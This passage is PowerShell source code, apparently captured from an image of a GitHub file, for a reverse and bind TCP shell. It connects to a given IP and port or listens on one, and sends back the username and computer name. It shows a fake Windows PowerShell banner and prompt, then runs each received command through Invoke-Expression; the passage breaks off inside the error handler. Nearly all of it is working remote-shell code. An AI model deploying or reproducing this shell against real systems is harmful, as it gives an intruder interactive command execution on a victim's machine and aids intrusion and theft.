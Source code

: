 ```

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
```